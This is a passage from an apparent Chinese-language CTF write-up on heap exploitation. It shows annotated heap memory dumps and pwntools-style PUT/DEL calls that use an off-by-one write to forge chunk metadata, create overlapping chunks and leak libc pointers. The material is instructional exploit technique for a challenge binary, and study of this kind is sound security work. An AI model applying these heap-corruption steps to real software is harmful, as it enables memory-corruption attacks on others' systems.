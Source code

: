 ```c
0x55e252387200:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387210:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387220:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387230:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387240:	0x00000000	0x00000000	0x00000041	0x00000000	-> free
0x55e252387250:	0x00000000	0x00000000	0x000000f0	0x00000000	(for D)
0x55e252387260:	0x523872b0	0x000055e2	0x00000000	0x00000000
0x55e252387270:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387280:	0x00000000	0x00000000	0x00000021	0x00000000	-> free
0x55e252387290:	0x00000000	0x00000000	0x00000000	0x00000000	(off by one)
0x55e2523872a0:	0x00000000	0x00000000	0x00000101	0x00000000	-> C.data
0x55e2523872b0:	0x00000000	0x00000000	0x00000000	0x00000000	(small bin)
0x55e2523872c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523872d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523872e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523872f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387300:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387310:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387320:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387330:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387340:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387350:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387360:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387370:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387380:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e252387390:	0x00000000	0x00000000	0x00000000	0x00000000
```

然后利用 off by one，伪造 metadata，构造出相互交叠的 chunk，我们就可以控制数据块B 的内容了。

```c
PUT("D"*0x8+p64(0)+p64(0x200), 0x20, p8(0)*0x20)  # off by one

0x55e252387240:	0x00000000	0x00000000	0x00000041	0x00000000	-> D
0x55e252387250:	0x52387290	0x000055e2	0x00000020	0x00000000
0x55e252387260:	0x523873b0	0x000055e2	0x00000000	0x00000000
0x55e252387270:	0x00000000	0x00000000	0x52387180	0x000055e2
0x55e252387280:	0x00000001	0x00000000	0x00000021	0x00000000	-> D.key
0x55e252387290:	0x44444444	0x44444444	0x00000000	0x00000000
0x55e2523872a0:	0x00000200	0x00000000	0x00000100	0x00000000	-> fake chunk
0x55e2523872b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523872c0:	0x00000000	0x00000000	0x00000000	0x00000000

DEL("A"*0x8)
DEL("C"*0x8)

0x55e2523870a0:	0x00000000	0x00000000	0x00000301	0x00000000	-> nice!
0x55e2523870b0:	0xa04c7b78	0x00007f87	0xa04c7b78	0x00007f87
0x55e2523870c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523870d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523870e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x55e2523870f0:	0x00000000	0x00000000	0x00000000	0x00000000
```
